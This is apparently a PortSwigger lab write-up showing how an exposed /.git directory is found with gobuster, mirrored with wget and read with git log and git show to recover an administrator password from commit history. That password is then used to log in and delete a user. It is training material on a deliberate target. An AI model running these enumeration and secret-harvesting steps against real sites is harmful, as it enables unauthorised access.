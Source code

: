 # Information disclosure in version control history

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history), you'll learn: Information disclosure in version control history! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the `administrator` user then log in and delete Carlos's account.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Information-Disclosure/ID-5/images/Pasted%20image%2020221216061726.png)

**Let's enumerate hidden directories via `gobuster`!**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Information-Disclosure/ID-5]
└─# gobuster dir -u https://0a47009c044c09ccc04c188e005e0021.web-security-academy.net/ -w /usr/share/wordlists/dirb/common.txt -t 40 
[...]
/.git/HEAD            (Status: 200) [Size: 23]
[...]
```

**In here, we found a `/.git` directory! Which is the a GitHub repository directory!**

**Let's download all the files via `wget`!**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Information-Disclosure/ID-5]
└─# wget -r https://0a47009c044c09ccc04c188e005e0021.web-security-academy.net/.git

┌──(root🌸siunam)-[~/…/Information-Disclosure/ID-5]
└─# cd 0a47009c044c09ccc04c188e005e0021.web-security-academy.net/.git;ls -lah               
total 52K
drwxr-xr-x  7 root root 4.0K Dec 16 06:25 .
drwxr-xr-x  3 root root 4.0K Dec 16 06:24 ..
-rw-r--r--  1 root root   34 Dec 16 06:24 COMMIT_EDITMSG
-rw-r--r--  1 root root  152 Dec 16 06:24 config
-rw-r--r--  1 root root   73 Dec 16 06:24 description
-rw-r--r--  1 root root   23 Dec 16 06:24 HEAD
drwxr-xr-x  2 root root 4.0K Dec 16 06:25 hooks
-rw-r--r--  1 root root  225 Dec 16 06:24 index
-rw-r--r--  1 root root 1.2K Dec 16 06:25 index.html
drwxr-xr-x  2 root root 4.0K Dec 16 06:25 info
drwxr-xr-x  3 root root 4.0K Dec 16 06:25 logs
drwxr-xr-x 10 root root 4.0K Dec 16 06:25 objects
drwxr-xr-x  4 root root 4.0K Dec 16 06:25 refs
```

**Now, we can use `git` to view all the commit logs!**
```
┌──(root🌸siunam)-[~/…/Information-Disclosure/ID-5/0a47009c044c09ccc04c188e005e0021.web-security-academy.net/.git]
└─# git log 
commit 06670302fd84e7c4e3133cb66af887286d107065 (HEAD -> master)
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 9001d061c821c7ec692f8b0a3d53656815f295d0
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```

**`Remove admin password from config`... Sounds interesting, let's print that commit:**
```
┌──(root🌸siunam)-[~/…/Information-Disclosure/ID-5/0a47009c044c09ccc04c188e005e0021.web-security-academy.net/.git]
└─# git show 06670302fd84e7c4e3133cb66af887286d107065
commit 06670302fd84e7c4e3133cb66af887286d107065 (HEAD -> master)
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

diff --git a/admin.conf b/admin.conf
index 2972fb2..21d23f1 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=05psjctjzftuafv8menz
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```

- Found `administrator` password: `05psjctjzftuafv8menz`

**Let's login as `administrator` and delete user `carlos`!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Information-Disclosure/ID-5/images/Pasted%20image%2020221216062911.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Information-Disclosure/ID-5/images/Pasted%20image%2020221216062919.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Information-Disclosure/ID-5/images/Pasted%20image%2020221216062936.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Information-Disclosure/ID-5/images/Pasted%20image%2020221216062943.png)

We did it!

# What we've learned:

1. Information disclosure in version control history
